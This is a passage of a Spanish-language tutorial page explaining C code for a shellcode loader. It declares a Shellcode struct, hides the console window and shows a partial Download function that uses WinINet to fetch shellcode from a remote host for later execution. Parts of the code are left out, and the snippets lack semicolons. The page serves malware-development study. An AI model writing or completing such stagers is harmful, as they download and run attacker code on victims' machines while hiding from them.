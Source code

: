 

## Explicación

### Declaración de funciones

El código empieza declarando una **estructura Shellcode** que contiene un arreglo de bytes junto a la longitud del mismo.

```c
struct Shellcode {
	byte* data;
	DWORD len;
};

Shellcode Download(LPCWSTR host, INTERNET_PORT port);
void Execute(Shellcode shellcode);
```

Después se definen dos prototipos de funciones, **Download** que devuelve una estructura shellcode y otra función **Execute** que no devuelve nada pero acepta como parámetros esta estructura.  Los prototipos de función permiten su uso en el bloque **main()** antes de su declaración.



### Bloque Main

En esta parte es cuando se utilizan las funciones previamente declaradas, y antes de eso se coloca **::ShowWindow(::GetConsoleWindow(), SW\_HIDE)** para ocultar la consola. En la función **Download()** se especifica la dirección ip o nombre de dominio del server de donde se descargará el shellcode junto a su puerto.



### Función Download

Las principales funciones que componen a Download son las siguientes:

{% code lineNumbers="true" %}
```c
Shellcode Download(LPCWSTR host, INTERNET_PORT port) {
    HINTERNET session = InternetOpen(L"<USER-AGENT>", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0)
    HINTERNET connection = InternetConnect(session, host, port, L"", L"", INTERNET_SERVICE_HTTP, 0, 0)
    HINTERNET request = HttpOpenRequest(connection, L"GET", L"<shellcode-file-name>", NULL, NULL, NULL, 0, 0)
    
    
    
    InternetCloseHandle(request);
    InternetCloseHandle(connection);
    InternetCloseHandle(session);
}
```
{% endcode %}
